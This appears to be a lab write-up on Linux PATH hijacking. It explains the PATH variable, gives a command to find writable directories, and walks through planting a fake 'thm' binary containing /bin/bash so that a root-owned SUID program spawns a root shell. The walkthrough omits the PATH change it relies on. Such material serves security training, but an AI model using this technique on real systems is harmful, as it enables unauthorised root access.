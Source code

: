 # Path

PATH is an environmental variable that contains directories where to find executable files. Whenever a binary such as "ls" is used, the shell refers to the PATH and searches each directory in the order they appear to retrieve the absolute path of the binary. You can return the details of the PATH variable with,
```
echo $PATH
```
Adding a directory to a PATH is beneficial as an executable file can be run from anywhere on the file system without specifying the absolute path. You can temporarily add a directory to the PATH with:
```
export PATH=[/DIRECTORY]:$PATH
```
Alternatively, you can permanently add the directory to the shell file.

## Exploiting PATH

PATH variables representing "." enable users to execute binaries from their current directory.

If you don't have permission to modify the PATH variable, place the cloned program in a directory that appears before the directory with the legitimate program in the PATH variable.

Find writable directories that can be added to the PATH variable with the following command that traverses through three layers of each directory.
```
find / -type d -writable -maxdepth 3 2>/dev/null
```

# Practical

I locate two files in the /home/murdoch directory `test` and `thm.py`. After running `test`, the shell returns `thm: not found`, indicating that the shell is looking for a `thm` binary. 

Since the `test` file has 4777 permissions and is owned by the root user, a file that replicates `thm` can be added to the PATH variable with the `/bin/bash` payload.
```
echo "/bin/bash" > thm
```
Add execute permissions to the file to enable execution.
```
chmod +x thm
```
Finally, we run the `test` executable to run a bash instance as the root user.
```
./test
```
